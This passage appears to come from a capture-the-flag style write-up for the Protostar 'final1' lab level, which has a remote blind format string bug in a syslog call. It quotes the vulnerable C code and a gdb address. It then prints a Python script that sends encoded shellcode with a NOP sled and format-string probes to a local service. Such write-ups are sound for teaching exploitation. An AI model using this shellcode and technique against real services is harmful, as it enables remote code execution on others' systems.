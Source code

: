 ```lang-bash line-numbers 
Dec 22 15:48:18 protostar final1: Login from 127.0.0.1:39666 as [alvaro] with password [passwd]
```

The [level](http://exploit-exercises.com/protostar/final1) is described as:

> This level is a remote blind format string level. The 'already written' bytes can be variable, and is based upon the length of the IP address and port number.
> 
> When you are exploiting this and you don't necessarily know your IP address and port number (proxy, NAT / DNAT, etc), you can determine that the string is properly aligned by seeing if it crashes or not when writing to an address you know is good.

So we are supposed to exploit a format string vulnerability in the **logit** function:

```lang-bash line-numbers 
char buf[512];
snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);
syslog(LOG_USER|LOG_DEBUG, buf);
```

The snprintf is not vulnerable to format string attack but **syslog** is since its syntax is:

```lang-bash line-numbers 
void syslog(int priority, const char *format, ...);
```

We can place our shellcode at **&username** which we can control and its located at:

```lang-bash line-numbers 
(gdb) p &username
$4 = (char (*)[128]) 0x804a220
```

We need to find the position offset poiting to a controlled 4 bytes space. In order to do so, I will run this little script that uses a shellcode in the "username" and then it sends a password containing DDDD (the 4 bytes we want to control) and a format string reading memory from a given position. Our intention is to find the position where the DDDD block is:

```lang-bash line-numbers 
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2994))

#http://www.exploit-db.com/exploits/13427/
shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
"\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
"\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
"DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
"AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
"JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
"BLAALMNIA"

for i in range(60):
	s.send("username " + "\x90"*16 + shellcode + "\n")
	s.send("login " + "DDDD[" + str(i) + "] %" + str(i)+ "$08x" + "\n")
s.close()
```
